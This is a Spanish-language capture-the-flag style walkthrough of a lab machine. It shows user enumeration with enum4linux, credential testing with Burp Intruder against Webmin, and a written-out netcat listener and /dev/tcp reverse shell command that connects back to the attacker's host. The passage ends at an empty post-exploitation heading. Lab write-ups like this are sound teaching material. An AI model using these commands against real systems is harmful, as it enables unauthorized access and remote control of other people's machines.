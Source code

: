 ![[Pasted image 20240330233836.png]]

### Enumeración de usuarios

Para esta ocasión haremos uso de la herramienta **[[Recursos#**enum4linux**|enum4linux]]** usando el siguiente comando.

	enum4linux -a 10.0.2.4

![[Pasted image 20240330234249.png]]

Una vez hemos la herramienta halla finalizado y nos halla dado una lista de múltiples usuarios, procederemos a usar la herramienta de intruder de BurpSuite para probar cual de los usuarios es compatible con la clave de acceso que obtuvimos con anterioridad.

![[Pasted image 20240330234400.png]]

Según BurpSuite, el usuario **cyber** es el único usuario el cual ha dado acceso, pero únicamente siendo este la clave de acceso del **Webmin** que se ejecuta en el puerto **10000**.

### Explotación

Procedemos a acceder.

![[Pasted image 20240330234441.png]]

Revisando la pagina, no encontramos con una command shell, el cual nos permite ejecutar comandos con el usuario cyber, pero sin privilegios root.

Nuestra primera técnica de explotación será realizar una reverse shell, aprovechando la command shell.

Antes que nada necesitamos abrir un puerto en nuestra computadora, y para ello nos apoyaremos de la herramienta **[[Recursos#**nc**|netcat]]** con el siguiente comando.

	nc -lvp 1234

![[Pasted image 20240403221758.png]]

Una vez abrimos el puerto **1234** y lo dejamos en modo escucha procedemos a realizar el reverse shell en la command shell del Web min.

Para esta ocasión ocupamos una lista con payloads y probamos cual de todos es util.

	/bin/sh -i >& /dev/tcp/10.0.2.6/1234 0>&1

![[Pasted image 20240330234535.png]]

Una vez introducimos la shell, nos dirigimos a nuestra consola de comandos.

![[Pasted image 20240403221815.png]]

Hemos establecido conexión con éxito!.

### Post - Explotación/Escalado de privilegios
